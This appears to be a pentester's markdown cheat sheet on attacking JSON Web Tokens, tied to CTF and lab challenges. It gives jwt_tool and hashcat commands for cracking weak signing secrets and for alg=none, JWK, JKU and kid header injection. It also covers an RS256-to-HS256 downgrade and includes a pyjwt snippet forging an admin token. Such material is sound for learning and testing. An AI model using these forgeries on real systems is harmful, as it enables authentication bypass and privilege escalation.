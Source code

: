 # JSON Web Token (JWT)

[![hacking_jwt](../../../../_badges/hacktricks/hacking_jwt.svg)](https://book.hacktricks.xyz/pentesting-web/hacking-jwt-json-web-tokens)
[![json_web_token](../../../../_badges/poat/json_web_token.svg)](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/JSON%20Web%20Token)
[![marketplace](../../../../_badges/thm-p/marketplace.svg)](https://tryhackme.com/r/room/marketplace)

<div class="row row-cols-lg-2"><div>

JSON Web Token (JWT) are used to represent signed data. They are commonly used in for authentication and authorization.

The format is: `<algo>.<data>.<signature>`. Each part is base64 encoded, so the final string is URL-safe while it can be easily decoded.

The data is signed using a secret key. If the secret key is compromised, everyone can sign messages 🔏.

The signature is used to detect if data was tampered with.
</div><div>

They can be transferred and found in:

* 📚 Headers (`Authorization: Bearer <JWT>`)
* 🍪 Cookies
* 📄 URL Parameters
* 💼 Request Body
* ...

📚 A common handy wordlist is [jwt-secrets](https://github.com/wallarm/jwt-secrets).
</div></div>

<hr class="sep-both">

## Common JWT Attacks

<div class="row row-cols-lg-2"><div>

You can use [jwt-tools](https://github.com/ticarpi/jwt_tool) <small>(4.8k ⭐)</small> to attack JWT:

```shell!
$ git clone https://github.com/ticarpi/jwt_tool.git $HOME/tools/jwt_tool
$ chmod +x $HOME/tools/jwt_tool/jwt_tool.py
$ ln -s $HOME/tools/jwt_tool/jwt_tool.py $HOME/.local/bin/jwt_tool
$ jwt_tool -h
```

```ps
$ jwt_tool 'jwt'             # decode
$ jwt_tool 'jwt' -T          # encode
$ jwt_tool 'jwt' -I -pc claim -pv value
```

You can also use [jwt.io](https://jwt.io/).

<br>

#### Secret Key Brute Forcing

[![jwt_weak_secret](../../../../_badges/rootme/web_server/jwt_weak_secret.svg)](https://www.root-me.org/en/Challenges/Web-Server/JWT-Weak-secret)

The secret key may be weak and brute forced:

```ps
$ jwt_tool 'jwt' -T -p "key" # use secret key
$ jwt_tool 'jwt' -C -d ./jwt.secrets.list # crack key
```

```ps
$ hashcat -m 16500 hash ./jwt.secrets.list
```

<br>

#### JWT Header Injection — None Algorithm

[![jwt_introduction](../../../../_badges/rootme/web_server/jwt_introduction.svg)](https://www.root-me.org/en/Challenges/Web-Server/JWT-Introduction)

We may be able to disable the tampering check by setting the signature algorithm to 'none.'

```ps
$ jwt_tool 'jwt' -T -X a     # attack 'algo=none'
```

📚 It also possible for the signature to not be checked at all by the server after issuing a JWT even if there is an algorithm.

<br>

#### JWT Header Injection — JWK

[![jwt_header_injection](../../../../_badges/rootme/web_server/jwt_header_injection.svg)](https://www.root-me.org/en/Challenges/Web-Server/JWT-Header-Injection)

An application may use the `jwk` header to represent the RSA key used to sign the data. We may be able to inject our own RSA key.

```ps
$ jwt_tool 'jwt' -T -X i     # attack 'jwk header injection'
$ jwt_tool 'jwt' -T -X i -hc kid -hv jwt_tool     # with kid
```
</div><div>

#### JWT Header Injection — JKU

[![jwt_unsecure_key_handling](../../../../_badges/rootme/web_server/jwt_unsecure_key_handling.svg)](https://www.root-me.org/en/Challenges/Web-Server/JWT-Unsecure-Key-Handling)

The `jku` header contains a URL or a filename used to fetch a key.

* When a asymmetric algorithm such as RS is used:

```shell!
$ cat $HOME/.jwt_tool/jwttool_custom_jwks.json # upload to URL as jwks.json
$ jwt_tool -X s -ju "URL/jwks.json" -I -hc kid -hv jwt_tool -pc claim -pv value
```

📚 You may check: `/jwks.json`, `/.well-known/jwks.json`, etc. Refer to [SSRF](/cybersecurity/red-team/s3.exploitation/vulns/web/ssrf.md) for insight on URLs <small>(filtering, attacks, etc.)</small> and setting up a [grabber](/cybersecurity/red-team/_knowledge/topics/request_grabber.md).

<br>

#### JWT Header Injection — KID

[![jwt_header_injection](../../../../_badges/rootme/web_server/jwt_header_injection.svg)](https://www.root-me.org/en/Challenges/Web-Server/JWT-Header-Injection)
[![jwt_unsecure_key_handling](../../../../_badges/rootme/web_server/jwt_unsecure_key_handling.svg)](https://www.root-me.org/en/Challenges/Web-Server/JWT-Unsecure-Key-Handling)
[![jwt_public_key](../../../../_badges/rootme/web_server/jwt_public_key.svg)](https://www.root-me.org/en/Challenges/Web-Server/JWT-Public-key)
[![marabout](../../../../_badges/rootme/web_server/jwt_unsecure_file_signature.svg)](https://www.root-me.org/en/Challenges/Web-Server/JWT-Unsecure-File-Signature)

The kid header may be present in two scenarios. The first one is to define which key file to use: `-p` must match the contents of `/dev/null`.

```shell!
$ jwt_tool "" -I -hc kid -hv "/dev/null" -S hs512 -p "" -pc claim -pv value
```

The `kid` header may be used along with `jku`. The JSON file pointed by `jku` may contain multiple keys, and `kid` determines which one to use.

➡️ Refer to [Path Traversal](/cybersecurity/red-team/s3.exploitation/vulns/web/path_traversal.md) if there is some filtering.

<br>

#### JWT Header Injection — RS256 to HS256

[![jwt_public_key](../../../../_badges/rootme/web_server/jwt_public_key.svg)](https://www.root-me.org/en/Challenges/Web-Server/JWT-Public-key)

When using RS256 algorithm, JWT uses the private key to sign the JWK and the public key to verify integrity. We may be able to perform a downgrade attack to HS256 and only use a public key for both.

```ps
$ jwt_tool 'jwt' -S hs256 -k public.key -T
```

You can compute the public key if you have two messages:

```ps
$ docker run -it ttervoort/jws2pubkey "JWT1" "JWT2"
```
</div></div>

<hr class="sep-both">

## Python JWT

<div class="row row-cols-lg-2"><div>

The [pyjwt](https://github.com/jpadilla/pyjwt) <small>(5.0k ⭐)</small> library can be used to manipulate JWT in Python. There are two unmaintained alternatives which are:

* [python-jwt by GehirnInc](https://github.com/GehirnInc/python-jwt) <small>(0.1k ⭐, 2022 🪦)</small>
* [python-jwt by D. Halls](https://github.com/davedoesdev/python-jwt) <small>(0.2k ⭐, 2023 🪦)</small> — has two CVEs

```py
headers = {
    'kid': '/dev/null'
}
payload = {
    'role': 'admin',
    'iat': int(datetime.datetime.now(datetime.UTC).timestamp())
}
```
</div><div>

To install it:

```shell!
$ pip install pyjwt
```

To generate a JWT:

```py
import jwt
token = jwt.encode(payload, '', algorithm='HS512', headers=headers)
```

To decode a JWT:

```py
import jwt
payload = jwt.decode(token, '', algorithms=['HS512'])
```
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* [PortSwigger JWT](https://portswigger.net/web-security/jwt)
* [jwtcrack/jwt2john](https://github.com/Sjord/jwtcrack)
</div><div>
</div></div>